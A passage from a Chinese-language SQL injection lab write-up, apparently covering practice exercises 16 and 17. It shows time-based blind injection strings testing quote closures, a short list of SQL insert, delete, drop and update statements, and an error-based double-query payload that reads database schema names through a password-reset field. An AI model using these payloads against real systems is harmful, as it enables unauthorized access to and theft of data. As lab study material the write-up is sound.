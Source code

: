尝试`admin' and if(ascii(substr(database(),1,1))=115,1,sleep(5))#`失败

尝试`admin" and if(ascii(substr(database(),1,1))=115,1,sleep(5))#`失败

尝试`admin") and if(ascii(substr(database(),1,1))=115,1,sleep(5))#`成功

其他步骤同实验15，只需要把脚本中的`admin'`改为`admin")`即可。



------

### 【一些原理】

- 用户输入的数据被sql解释器执行，通过猜测后台的sql语句，进行恶意的sql语句查询。
- mysql增删改语句:

1、增：

```
insert into users values('66','name','pass');
```

2、删：

```
delete from 表名;  
delete from 表名where id=1;  
删数据库：drop database 数据库名;  
删除表：drop table 表名;  
删除表中的列:alter table 表名drop column 列名;
```

3、改：

```
修改所有：updata 表名set 列名='新的值，非数字加单引号' ;  
带条件的修改：updata 表名set 列名='新的值，非数字加单引号' where id=6;
```



## 实验十七	基于错误的更新查询POST注入

这题传入账号和想要重置的密码，当输入合法时，提示密码修改成功。

这道题目严格检查了`uname`，但是没有严格检查`password`，说明注入点在`password`。

输入`passwd=admin'`，发现报错回显：`near 'admin'' at line 1`，说明是单引号闭合（字符型注入）。

![image-20211207215227592](https://cdn.jsdelivr.net/gh/munian08/drawingbed@main/img/202207020059817.png)

利用**双注入**：

### 查询数据库

```
uname=admin&passwd=1' and (select 1 from (select count(*),concat((SELECT schema_name FROM information_schema.schemata limit 0,1),floor (rand(0)*2))x from information_schema.tables group by x)a) #
```
